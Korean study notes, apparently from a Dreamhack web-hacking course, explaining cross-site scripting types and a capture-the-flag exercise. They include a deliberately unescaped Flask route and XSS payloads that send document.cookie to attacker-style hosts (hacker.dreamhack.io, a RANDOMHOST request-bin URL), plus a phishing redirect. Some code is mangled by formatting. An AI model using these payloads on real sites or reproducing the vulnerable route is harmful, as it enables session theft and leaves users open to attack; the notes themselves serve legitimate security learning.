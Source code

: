 # Cross Site Scripting(XSS)

## Cross Site Scripting(XSS)

- XSS는 클라이언트 취약점 중 하나로, 공격자가 웹 리소스에 악성 스크립트를 삽입해, 이용자의 웹 브라우저에서 해당 스크립트를 실행할 수 있다.
- 공격자는 해당 취약점을 통해 특정 계정의 세션 정보를 탈취하고 해당 계정으로 임의의 기능을 수행할 수 있다.
- Ex) 드림핵 웹 페이지에서 XSS 취약점이 존재하면 [https://dreamhack.io](https://dreamhack.io) 내에서 오리진 권한으로 악성 스크립트를 삽입한다. 이후에 이용자가 악성 스크립트가 포함된 페이지를 방문하면 공격자가 임의로 삽입한 스크립트가 실행되어 쿠키 및 세션이 탈취될 수 있다.
- 해당 취약점은 SOP 보안 정책이 등장하면서 서로 다른 오리진에서는 정보를 읽는 행위가 이전에 비해 힘들어졌다. 그러나 이를 우회하는 기술이 소개 되며 XSS 공격은 지속되고 있다.

## XSS 발생 예시와 종류

- XSS 공격은 이용자가 삽입한 내용을 출력하는 기능에서 발생한다.
- Ex) “안녕하세요, 00 회원님”과 같은 문구 또는 게시물과 댓글
- 클라이언트는 HTTP 형식으로 웹 서버에 리소스를 요청하고 서버로 받은 응답, 즉 HTML, CSS, JS 등의 웹 리소스를 시각화하여 이용자에게 보여준다.
- 이 때 HTML, CSS, JS와 등 과 같은 코드가 포함된 게시물을 조회할 경우 이용자는 변조된 페이지를 보거나 스크립트가 실행될 수 있다.

### XSS 종류

1. Stored XSS : XSS에 사용되는 악성 스크립트가 서버에 저장되고 서버의 응답에 담겨오는 XSS
2. Reflected XSS : XSS에 사용되는 악성 스크립트가 URL에 삽입되고 서버의 응답에 담겨오는 XSS
3. DOM-based XSS : XSS에 사용되는 악성 스크립트가 URL Fragment에 삽입되는 XSS * Fragment는 서버 요청 / 응답에 포함되지 않음
4. Universal XSS : 클라이언트의 브라우저 혹은 브라우저의 플러그인에서 발생하는 취약점으로 SOP 정책을 우회하는 XSS

## XSS 스크립트의 예시

- **자바스크립트는** 웹 문서의 동작을 정의한다. 이는 이용자가 버튼 클릭 시에 어떤 이벤트를 발생시킬지와 데이터 입력 시 해당 데이터를 전송하는 이벤트를 구현할 수 있다.
- 이러한 기능 외에도 이용자와의 상호작용 없이 이용자의 권한으로 정보를 조회하거나 변경하는 등의 행위가 가능하다.
- 이게 가능한 이유는 이용자를 식별하기 위한 세션 및 쿠키가 웹 브라우저에 저장되어 있기 때문이다.
- 따라서 공격자는 자바스크립트를 통해 이용자에게 보여지는 웹 페이지를 조작하거나, 웹 브라우저의 위치를 임의의 주소로 변경할 수 있다.
- 자바스크립트는 다양한 동작을 정의할 수 있기에 XSS 공격에 주로 사용된다.
---
### figure 1

```python
<script>
// "hello" 문자열 alert 실행.
alert("hello");
// 현재 페이지의 쿠키(return type: string)
document.cookie; 
// 현재 페이지의 쿠키를 인자로 가진 alert 실행.
alert(document.cookie);
// 쿠키 생성(key: name, value: test)
document.cookie = "name=test;";
// new Image() 는 이미지를 생성하는 함수이며, src는 이미지의 주소를 지정. 공격자 주소는 http://hacker.dreamhack.io
// "http://hacker.dreamhack.io/?cookie=현재페이지의쿠키" 주소를 요청하기 때문에 공격자 주소로 현재 페이지의 쿠키 요청함
new Image().src = "http://hacker.dreamhack.io/?cookie=" + document.cookie;
</script>
```

### figure 2

```python
<script>
// 이용자의 페이지 정보에 접근.
document;
// 이용자의 페이지에 데이터를 삽입.
document.write("Hacked By DreamHack !");
</script>
```

### figure 3

```python
<script>
// 이용자의 위치를 변경.
// 피싱 공격 등으로 사용됨.
location.href = "http://hacker.dreamhack.io/phishing"; 
// 새 창 열기
window.open("http://hacker.dreamhack.io/")
</script>
```
---
## Stored XSS

- **Stored XSS**는 서버의 데이터베이스 또는 파일 등의 형태로 저장된 악성 스크립트를 조회할 때 발생하는 XSS이다. 대표적으로 게시물과 댓글에 악성 스크립트를 포함해 업로드 하는 방식이 있다. 
- 게시물은 불특정 다수에게 보여지기 때문에 해당 기능에서 XSS 취약점이 존재할 경우 높은 파급력을 가진다.

## Reflected XSS

- **Reflected XSS**는 서버가 악성 스크립트가 담긴 요청을 출력할 때 발생한다. 대표적으로 게시판 서비스에서 작성된 게시물을 조회하기 위한 검색창에서 스크립트를 포함해 검색하는 방식이 있다. 
- 이용자가 게시물을 검색하면 서버에서는 검색 결과를 이용자에게 반환한다. 일부 서비스에서는 검색 결과를 응답에 포합하는데, 검색 문자열에 악성 스크립트가 포함되어 있다면 Reflected XSS가 발생할 수 있다.
- Reflected XSS는 Stored XSS와는 다르게 URL과 같은 이용자의 요청에 의해 발생한다. 따라서 공격을 위해서는 다른 이용자를 악성 스크립트가 포함된 링크에 접속하도록 유도해야 한다. 
- 이용자에게 링크를 직접 전달하는 방법은 악성 스크립트 포함 여부를 이용자가 눈치챌 수 있기 때문에 주로 **Click Jacking** 또는 **Open Redirect** 등 다른 취약점과 연계하여 사용한다.
## - 요약
- **Cross Site Scripting(XSS)** : 클라이언트 취약점, 공격자가 웹 리소스에 악성 스크립트를 삽입해 이용자의 웹 브라우저에서 해당 스크립트를 실행하는 취약점
- **Stored XSS**: 악성 스크립트가 서버 내에 존재, 이용자가 저장된 악성 스크립트를 조회할 때 발생
- **Reflected XSS** : 악성 스크립트가 이용자 요청 내에 존재, 이용자가 악성 스크립트가 포함된 요청을 보낸 후 응답을 출력할 때 존재.

## Exercise : XSS

### /vuln
```python
@app.route("/vuln")def vuln(): param = request.args.get("param", "") # 이용자가 입력한 vuln 인자를 가져옴 return param # 이용자의 입력값을 화면 상에 표시
```
### /memo
```python
||@app.route("/memo") # memo 페이지 라우팅|
||def memo(): # memo 함수 선언|
||global memo_text # 메모를 전역변수로 참조|
||text = request.args.get("memo", "") # 이용자가 전송한 memo 입력값을 가져옴|
||memo_text += text + "\n" # 이용자가 전송한 memo 입력값을 memo_text에 추가|
||return render_template("memo.html", memo=memo_text) # 사이트에 기록된 memo_text를 화면에 출력|
```
### /flag
```python
def read_url(url, cookie={"name": "name", "value": "value"}):
	cookie.update({"domain": "127.0.0.1"})
	 try:
		service = Service(executable_path="/chromedriver") 
		options = webdriver.ChromeOptions() 
		for _ in [
			"headless", 
			"window-size=1920x1080",
			"disable-gpu", 
			"no-sandbox", 
			"disable-dev-shm-usage", ]:
				options.add_argument(_)
		driver = webdriver.Chrome(service=service, options=options) 
		driver.implicitly_wait(3) 
		driver.set_page_load_timeout(3) 
		driver.get("http://127.0.0.1:8000/") 
		driver.add_cookie(cookie) 
		driver.get(url)
		except Exception as e: 
			driver.quit() 
			# return str(e) 
			return False
		driver.quit() 
		return True
def check_xss(param, cookie={"name": "name", "value": "value"}): 
	url = f"http://127.0.0.1:8000/vuln?param={urllib.parse.quote(param)}" 
	return read_url(url, cookie)
@app.route("/flag", methods=["GET", "POST"])
def flag():
	if request.method == "GET": 
		return render_template("flag.html") 
	elif request.method == "POST": 
		param = request.form.get("param")
		 if not check_xss(param, {"name": "flag", "value": FLAG.strip()}):
			  return '<script>alert("wrong??");history.go(-1);</script>' 
		return '<script>alert("good");history.go(-1);</script>'
```

<script>location.href = "http://RANDOMHOST.request.dreamhack.games/?memo=" + document.cookie;</script>

<script>var x=new URLSearchParams(location.search); document.getElementById('vuln').innerHTML = x.get('param');</script>

<img src="XSS-2" onerror="location.href='/memo?memo='+document.cookie">

script list, sql injection 어떻게 동작하는지 파악.